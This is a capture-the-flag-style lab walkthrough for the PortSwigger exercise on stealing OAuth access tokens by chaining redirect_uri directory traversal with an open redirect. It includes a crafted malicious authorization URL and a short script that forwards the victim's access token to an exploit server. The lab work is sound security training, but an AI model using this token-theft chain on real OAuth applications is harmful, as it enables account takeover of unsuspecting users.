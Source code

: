 ## Stealing OAuth access tokens via an open redirect
Reference: https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect


### Quick Solution
As with one of the previous labs we have to mess around with the ``redirect_uri`` parameter. In this case the OAuth service has some kind of protection against ``redirect_uri`` tampering. Anyway the client application has two vulnerabilities that can be leveraged to circumevent this protection:
- Directory traversal (using ``/../``)
- Open redirection (in every post page)


### Solution
1. While proxying traffic through Burp, click "My account" and complete the OAuth login process. Afterwards, you will be redirected back to the blog website.
2. Study the resulting requests and responses. Notice that the blog website makes an API call to the userinfo endpoint at ``/me`` and then uses the data it fetches to log the user in. Send the ``GET /me`` request to Burp Repeater.
3. Log out of your account and log back in again. From the proxy history, find the most recent`` GET /auth?client_id=[...]`` request and send it to Repeater.
4. In Repeater, experiment with the ``GET /auth?client_id=[...]`` request. Observe that you cannot supply an external domain as ``redirect_uri`` because it's being validated against a whitelist. However, you can append additional characters to the default value without encountering an error, including the ``/../`` directory traversal sequence.
5. Log out of your account on the blog website and turn on proxy interception in Burp.
6. In your browser, log in again and go to the intercepted ``GET /auth?client_id=[...]`` request in Burp Proxy.
7. Confirm that the ``redirect_uri`` parameter is in fact vulnerable to directory traversal by changing it to:
```
https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post?postId=1
```
Forward any remaining requests and observe that you are eventually redirected to the first blog post. In your browser, notice that your access token is included in the URL as a fragment.
8. With the help of Burp, audit the other pages on the blog website. Identify the "Next post" option at the bottom of each blog post, which works by redirecting users to the path specified in a query parameter. Send the corresponding ``GET /post/next?path=[...]`` request to Repeater.
9. In Repeater, experiment with the ``path`` parameter. Notice that this is an open redirect. You can even supply an absolute URL to elicit a redirect to a completely different domain, for example, your exploit server.
10. Craft a malicious URL that combines these vulnerabilities. You need a URL that will initiate an OAuth flow with the ``redirect_uri`` pointing to the open redirect, which subsequently forwards the victim to your exploit server:
```
https://YOUR-LAB-OAUTH-SERVER.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email
```
11. Test that this URL works correctly by visiting it in your browser. You should be redirected to the exploit server's "Hello, world!" page, along with the access token in a URL fragment.
12. On the exploit server, create a suitable script at ``/exploit`` that will extract the fragment and output it somewhere. For example, the following script will leak it via the access log by redirecting users to the exploit server for a second time, with the access token as a query parameter instead:
```
<script>
window.location = '/?'+document.location.hash.substr(1)
</script>
```
13. To test that everything is working correctly, store this exploit and visit your malicious URL again in your browser. Then, go to the exploit server access log. There should be a request for ``GET /?access_token=[...]``.